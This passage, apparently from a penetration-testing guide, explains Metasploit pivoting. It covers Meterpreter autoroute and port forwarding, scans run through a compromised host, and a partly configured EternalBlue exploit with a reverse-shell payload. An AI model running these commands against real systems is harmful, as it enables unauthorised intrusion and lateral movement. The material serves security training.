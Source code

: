 ```bash
# - Quick testing and verification
# - Basic file transfer scenarios
```

## Metasploit Pivoting Modules

### **Meterpreter Autoroute and Portfwd**

**What Meterpreter pivoting provides:** Built-in pivoting capabilities through compromised Meterpreter sessions, including routing and port forwarding functionality.

**Why Meterpreter pivoting is effective:** Integrated with exploitation framework, persistent session management, multiple pivot methods, and seamless tool integration.

```bash
# Meterpreter session pivoting setup
# Assume you have active meterpreter session

# Check current network configuration
meterpreter > ipconfig                       # Windows
meterpreter > ifconfig                       # Linux
meterpreter > route                          # View routing table

# Add routes through Meterpreter session
meterpreter > run autoroute -s 192.168.1.0/24
# Adds route to 192.168.1.0/24 through current session

# View configured routes
meterpreter > run autoroute -p              # Print routes

# Delete routes
meterpreter > run autoroute -d 192.168.1.0/24

# Port forwarding through Meterpreter
# Local port forwarding
meterpreter > portfwd add -l 3389 -p 3389 -r 192.168.1.100
# Forward local port 3389 to 192.168.1.100:3389

# List active port forwards
meterpreter > portfwd list

# Delete port forward
meterpreter > portfwd delete -l 3389

# Background the session for concurrent use
meterpreter > background

# Use other Metasploit modules through pivot
# Port scanning through pivot
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
set THREADS 50
run

# SMB scanning through pivot
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.1.0/24
run

# Exploitation through pivot
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.50  # IP of pivot machine
```